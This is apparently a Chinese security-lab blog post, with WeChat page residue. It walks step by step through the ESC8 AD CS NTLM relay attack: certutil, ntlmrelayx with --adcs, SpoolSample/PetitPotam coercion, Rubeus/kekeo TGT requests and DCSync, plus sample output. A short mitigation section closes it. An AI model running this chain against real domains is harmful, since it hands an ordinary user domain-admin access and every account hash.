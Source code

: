 ##  从证书服务到域管

原创 执念于心  [ 水滴安全实验室 ](javascript:void\(0\);)

**水滴安全实验室** ![]()

微信号 EversecLab

功能介绍 水滴安全实验室－互联网安全资讯订阅号

____

__

收录于话题

## 概述

最近一篇有关于域中证书服务攻击面的文章在国外安全圈中流行开来，其中威胁比较大的就当属  
ESC8 也被叫做ADCS Relay  
attack，就连mimikatz的作者也在twitter上发布了漏洞演示视频，本文将讲解并演示如何利用该漏洞，在一个默认安装了证书web服务的域环境中，使用普通用户凭据，直接获取到域管权限。

## 攻击流程

  1. 使用打印机bug，让域控使用机器用户身份发起ntlm请求。

  2. 使用ntlmrelay，将域控的请求relay到证书服务的web端点，从而通过验证并获得域机器身份。

  3. 通过证书模板DomainController，给该机器用户申请一个证书。

  4. 利用该证书与域进行认证，从而可以持久性获取到该机器用户的权限，也就是域控的机器用户权限。

## 利用流程

### 查找证书web服务端点

在域中定位ca服务器的办法比较多，最简单的可以使用certutil命令：

    
    
    certutil -config - -ping

![](https://gitee.com/fuli009/images/raw/master/public/20210806175820.png)

就获取到了证书服务器的内网地址：

    
    
    http://win-pj6elfeg09p.test.local/certsrv/certfnsh.asp  
    

### 设置监听

首先使用impacket的ntlmrelayx.py  
进行监听，需要使用最新的impacket，安装如下：

    
    
    git clone https://github.com/SecureAuthCorp/impacket ./impacket  
    cd impacket  
    git fetch origin pull/1101/head:ntlmrelayx-adcs-attack  
    git checkout ntlmrelayx-adcs-attack  
    python3 setup.py install  
    cd examples  
    python3 ntlmrelayx.py -t http://my.victim.host/certsrv/certfnsh.asp -smb2support --adcs  
    

然后使用ntlmrelayx 设置好relay目标，并监听：

    
    
    ntlmrelayx.py -debug -smb2support --target http://win-pj6elfeg09p.test.local/certsrv/certfnsh.asp --adcs --template DomainController  
    

### 打印机bug

然后我们需要使用到打印机bug，让域控回连到我们监听的服务上，使用spoolsample或者petitpotam都可以，当然如果我们有域账号，也可以使用printbug.py
或者 mimikatz的misc::spooler：

    
    
    SpoolSample.exe dcip attackip

  

![](https://gitee.com/fuli009/images/raw/master/public/20210806175822.png)

  

    
    
    petitpotam.exe attackip dcip

  

![](https://gitee.com/fuli009/images/raw/master/public/20210806175823.png)

然后我们就收到了请求:  

    
    
    [*] Generating CSR...  
    [*] CSR generated!  
    [*] Getting certificate...  
    [*] GOT CERTIFICATE!  
    [*] Base64 certificate of user SDC$:  
    MIIRhQIBAzCCEU8GCSqGSIb3DQEHA....2dmQ==  
    

### 获取域管

有了这个证书之后，可以直接使用kekeo或者rubeus，申请tgt，从而能够dcsync

    
    
    kekeo:  
    base64 /input:on  
    tgt::ask /pfx:xxx /user:sdc$ /domain:test.local /ptt  
      
    rubeus:  
    Rubeus.exe asktgt /user:SDC$ /certificate:xxx /domain:test.local /dc:192.168.239.147 /ptt  
    ServiceName           :  krbtgt/test.local  
      ServiceRealm          :  TEST.LOCAL  
      UserName              :  SDC$  
      UserRealm             :  TEST.LOCAL  
      StartTime             :  2021/8/5 17:16:26  
      EndTime               :  2021/8/6 3:16:26  
      RenewTill             :  2021/8/12 17:16:26  
      Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable  
      KeyType               :  rc4_hmac  
      Base64(key)           :  BPE8UFgtl1X3o8XjYazkWQ==  
    

导入成功之后，就可以直接dcsync，从而获取到所有域用户的hash，从而获取了域管理权限：

![](https://gitee.com/fuli009/images/raw/master/public/20210806175824.png)

## 漏洞演示

## 检测和防御

  1. 如果不需要，可以关闭证书服务的web端点。

  2. 可以将我们relay到的web端点  
`certsrv`，该iis配置中的ntlm认证删除，这样就无法使用ntlm进行认证，也就封堵了relay攻击。

## 参考

  * Certified Pre-Owned`2021年6月17发布`

  * AD CS relay attack - practical guide`2021年6月23发布`

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

从证书服务到域管

最多200字，当前共字

__

发送中

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

